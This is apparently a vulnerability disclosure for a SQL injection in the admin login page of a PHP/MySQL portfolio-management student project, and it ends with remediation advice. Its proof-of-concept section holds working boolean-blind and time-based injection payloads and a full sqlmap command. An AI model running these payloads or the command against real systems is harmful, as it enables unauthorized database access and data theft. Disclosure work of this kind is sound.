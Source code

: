 # 1000projects Portfolio Management System MCA Project using PHP and MySQL V1.0 /admin/admin_login.php SQL injection

## NAME OF AFFECTED PRODUCT(S)

- ` Portfolio Management System MCA Project using PHP and MySQL`

## Vendor Homepage

- https://1000projects.org/portfolio-management-system-mca-project-using-php-and-mysql.html

## Software Link

- https://1000projects.org/wp-content/uploads/2022/11/Portfolio-MP.7z

## Vendor

- `1000projects`

## Vulnerability Type

- `SQL injection`

## Root Cause

- A SQL injection vulnerability was found in the '/admin/admin_login.php' file of the 'Portfolio Management System MCA Project using PHP and MySQL' project.   The reason for this issue is that attackers inject malicious code from the parameter 'username' and use it directly in SQL queries without the need for appropriate cleaning or validation.   This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

  <img src="./image/1.jpg" style="zoom:150%;" />

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve  unauthorized database access, sensitive data leakage, data tampering,  comprehensive system control, and even service interruption, posing a  serious threat to system security and business continuity.

## DESCRIPTION

- During the security review of "Portfolio Management System MCA Project using PHP and MySQL", wangjiawei  discovered a critical SQL injection vulnerability in the "/admin/admin_login.php" file.   This vulnerability stems from insufficient  user input validation of the 'username' parameter, allowing attackers to inject malicious SQL queries.   Therefore, attackers can gain  unauthorized access to databases, modify or delete data, and access  sensitive information.   Immediate remedial measures are needed to ensure  system security and protect data integrity.

## Vulnerability details and POC

Vulnerability Name: 
- "username" Parameter

### payload
```
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-1628' OR 5975=5975-- fDUG&password=1&submit=Login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=1' AND (SELECT 4489 FROM (SELECT(SLEEP(5)))tfBj)-- Bxll&password=1&submit=Login
```

### The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```
sqlmap -u "http://192.168.75.230:8080/admin/admin_login.php" --data="username=1&password=1&submit=Login" --cookie="Cookie: PHPSESSID=2vlp63ah40dpfu1essnne5at9c" --batch --level=5 --risk=3 --random-agent --dbms=mysql --dbs
```
<img src="./image/2.jpg" style="zoom:150%;" />

## Suggested fixes

1. **Use prepared statements and parameter binding:**
    Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered  by the user is treated as pure data and will not be interpreted as SQL  code.
2. **Input validation and filtering:**
    Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Regular security audits:**
    Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
